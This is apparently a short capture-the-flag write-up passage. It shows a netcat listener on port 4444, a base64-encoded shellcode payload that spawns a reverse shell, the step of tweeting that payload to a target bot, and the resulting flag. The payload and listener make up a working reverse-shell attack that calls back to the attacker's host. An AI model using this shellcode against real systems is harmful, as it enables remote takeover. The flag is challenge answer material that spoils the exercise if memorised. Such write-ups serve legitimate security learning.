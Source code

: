 ```
$ nc -l 4444
cat flag.txt
```

Generate your payload:

```
# base64 -w0 newcode
ailYmWoCX2oBXg8Fl7AqSLn+/+6j7SRnKUj32VFUXrIQDwVqA16wIf/ODwV1+JmwO1JIuS9iaW4vL3NoUVRfDwUr7OUBAA==
```

And tweet _@JohnSmi31885382_:

![](tweet.png)

In my case, within seconds:

```
$ nc -l 4444
cat flag.txt
WPI{b10kd_@nD_r33p0rtEd}
```

#### Flag

```
WPI{b10kd_@nD_r33p0rtEd}
```





 
